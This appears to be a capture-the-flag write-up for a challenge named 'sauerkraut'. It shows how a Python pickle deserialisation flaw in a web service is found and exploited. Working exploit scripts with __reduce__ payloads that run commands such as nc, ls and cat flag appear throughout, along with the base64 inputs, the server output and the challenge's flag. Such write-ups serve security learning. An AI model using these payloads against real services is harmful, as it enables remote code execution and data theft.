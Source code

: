 # sauerkraut

## Challenge

We are presented with a webpage with an input and output field.
There is no explanation about the format of the input or output.

We can type plaintext in the input field and submit it, which sends our input to the remote server.
The server returns a response in plaintext, which is displayed in the output box.

## Solution

If we just enter the placeholder text, we get a useful error message as our response:

```
Input:
Enter text here...

Output:
Invalid base64-encoded string: number of data characters (13) cannot be 1 more than a multiple of 4
```

The program clearly expects a base64 input, so we can try something generic such as "AAAA" to see how it responds:

```
Input:
AAAA

Output:
invalid load key, '\x00'.
```

Googling this error message brings up posts about unpickling in Python, which is used to deserialise data.
This process is notoriously unsafe and it is strongly advised to avoid unpicking any user-controlled data.

We can use this by writing our own Python code and pickling it such that, when unpickled, the program executes our payload.
To do so, I used an example from https://blog.nelhage.com/2011/03/exploiting-pickle/

If we try using code from the article to call `nc`, the output is a single number:

```py
#!/usr/bin/env python2

import cPickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('nc', ))

print "nc:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3Bvc2l4CnN5c3RlbQpwMQooUyduYycKcDIKdHAzClJwNAou

Output:
32512
```

Googling this error code as "python system 32512" tells us that this is an error code which is often seen when the program cannot find the binary to execute.

We now know that netcat is likely not available, but also that the output is the return value of our code.

Using this information, we can modify our code to use `subprocess.check_output()` such that the return value is the output of our shell commands.

For example, the command `ls` can be encoded as:

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

Output:
b'app\nflag\ngunicorn_config.py\nrequirements.txt\n
```

We can see that the flag file is located in the same directory as the application.

Using the same technique, we can read this flag file:

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print base64.b64encode(cPickle.dumps(Exploit()))
```

Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou

Output:
b'SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}\n'
```

## Exploit

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print "ls:"
print base64.b64encode(cPickle.dumps(Exploit()))

print ""

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print "cat flag:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
ls:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

cat flag:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou
```

## Flag

`SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}`


